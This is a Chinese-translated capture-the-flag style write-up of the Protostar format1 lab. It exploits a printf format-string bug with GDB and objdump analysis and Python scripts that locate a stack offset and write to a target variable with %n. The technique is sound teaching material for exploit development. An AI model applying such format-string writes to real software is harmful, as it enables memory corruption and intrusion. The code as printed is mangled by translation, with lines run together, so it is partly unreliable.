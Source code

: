 # [ExpDev]漏洞利用练习|原恒星|格式 1

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-1-c5182332a69a?source=collection_archive---------1----------------------->

![](img/2a432b83c5226c3a04d2aa12d4fdcc01.png)

# 格式 1(格式字符串基本 1)

这个挑战的目标是利用格式字符串来修改任意内存位置，以打印获胜的语句。

*   链接:[https://exploit-exercises.lains.space/protostar/format1/](https://exploit-exercises.lains.space/protostar/format1/)

![](img/9697c9c14f4a0100e98a3bf9b4b34fc7.png)

## 注意事项

*   `**printf(string);**`:这是这段代码中易受攻击的函数。`printf()`将*而不是*检查所提供的输入是否是预期的格式字符串，因为它被编码为接受任何字符串值。所以我们能做的只是简单地验证我们是否可以泄漏内存地址，并且也可以将任意代码写到堆栈上(**【读取】** `%p` → **【写入】** `%n`)。
*   `**if(target) {**`:这个`target`变量就是我们需要找到的。然后，通过利用格式字符串漏洞，我们将把地址写入堆栈，通过指定正确的偏移值来打印出获胜的语句。

# 拆解(GDB)

让我们反汇编二进制文件，看看在 ASM 级别做了什么:

```
**$ gdb -q format1**
Reading symbols from /opt/protostar/bin/format1...done.
**(gdb) set disassembly-flavor intel
(gdb) disassemble vuln**
```

![](img/4da814aeb1b0680486bc7d3d3d9861ae.png)

这个程序非常简单。有趣的是，`mov eax,ds:0x8049638`将下面的地址从`.bss`(T8 段的一部分)移到`EAX`寄存器中。

下面是使用`objdump`转储二进制文件的头:

```
**$ objdump -h /opt/protostar/bin/format1**
...(snip)...**23 .data**         00000008  **08049628  08049628**  00000628  2**2
                  CONTENTS, ALLOC, LOAD, DATA
**24 .bss**          0000000c  **08049630  08049630**  00000630  2**2
                  ALLOC
...(snip)...
```

然后，如果`EAX`等于“0”，则`test eax,eax`通过将`eflags`值设置为`ZF`(=零标志)来创建条件跳转如果为“0”，则跳转；否则，它继续其执行流程。

# 剥削

## 初步侦察

如前所述，易受攻击的函数是`printf(string)`。当我们提供一个随机字符串时，它只是回显:

![](img/f75057f3c1877308497d7e5dcb2d7f97.png)

然而，如果我们提供一些格式字符串参数，我们会得到有趣的输出😮：

![](img/01c844061062848387f2e0a040ba2648.png)

这基本上是在堆栈内存中打印出一些随机地址。但更有趣的是，如果我们输入足够多的格式字符串参数，我们实际上可以在堆栈中找到我们输入的字符串。

```
**$ ./format1 $(python -c 'print "AAAA" + "%p|" * 156') && echo**
```

![](img/29ceea509ebdaf3e90da8ddc02d7818b.png)

滥用这一点:(1)找到一个我们可以控制的偏移量→ (2)编写一个我们希望执行的任意代码。在这种情况下，我们将只为`target`变量提供一个地址来打印获胜的语句。

## 寻找偏移

让我们编写一个快速的 python 脚本来查找偏移值:

```
**[exploit.py] - Finding Offset**#!/usr/bin/pythonimport osegg = "AAAA"def desc():
  print('[+] Running Simple Format String Spraying...')
  print('[+] Setting Egg: {0}').format(egg.encode("hex"))def spraying():
  i = 1
  while i < 200:
    c = int(i)
    p = '/opt/protostar/bin/format1 ' + egg + ("%p" * c) + "%p"
    out = os.popen(p).read()
    s = str(out)

    if egg.encode("hex") in s:
      print('[+] Egg found! ...{0}'.format(out[-30:]))
      print('[+] Found Offset: {0}'.format(i))
      break  
    else:
      i += 1
      continueif __name__ == "__main__":
  desc()
  spraying()
```

这个脚本应该是不言自明的。当我们运行这个脚本时，我们得到 132 的偏移量。

![](img/6d31e4d251f83b9976e68891b7871260.png)

## 寻找“目标”变量地址

```
**$ objdump -t format1 |grep target**
**08049638** g     O .bss **00000004**              target
```

`target`的地址存在于`0x08049638`中。将地址转换成小端格式= `\x38\x96\x04\x08`。

## 最终利用

```
**[exploit.py] - Final Exploit**#!/usr/bin/pythonimport osegg = "\x38\x96\x04\x08"    **<-- Little-endian Formatted "target"** def desc():
  print('[+] Running Simple Format String Spraying...')
  print('[+] Setting Egg: {0}').format(egg.encode("hex"))def spraying():
  i = 1
  while i < 200:
    c = int(i)
    p = '/opt/protostar/bin/format1 ' + egg + ("%p" * c) + "%p"
    out = os.popen(p).read()
    s = str(out)

    if egg.encode("hex") in s:
      print('[+] Egg found! ...{0}'.format(out[-30:]))
      print('[+] Found Offset: {0}'.format(i))
      break  
    else:
      i += 1
      continuedef win():
  **offset = int(132)    <-- Found Offset Value**
  p = '/opt/protostar/bin/format1 ' 
  p+= egg 
  p+= ("%p" * offset) 
  p+= "%n"    **<-- Write the number of char into pointers**
  out = os.popen(p).read()
  s = str(out)if "target" in s:
    print('[+] Winning Statement: {0}'.format(out[-32:]))
    exit(0) 
  else:
    print('[-] Something Went Wrong...')
    exit(1)if __name__ == "__main__":
  desc()
  #spraying()
  win()
```

当我们运行脚本时，我们得到了漂亮的获胜语句:

![](img/6539b1e60bdd3f2881991c135c6f23e2.png)

感谢阅读！

## 下一个挑战:

*   [**格式 2**](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-format-2-73ef08011a8c) —格式字符串利用:基本 2

![](img/cf0c368a1f7bafcde7b9cad76701a658.png)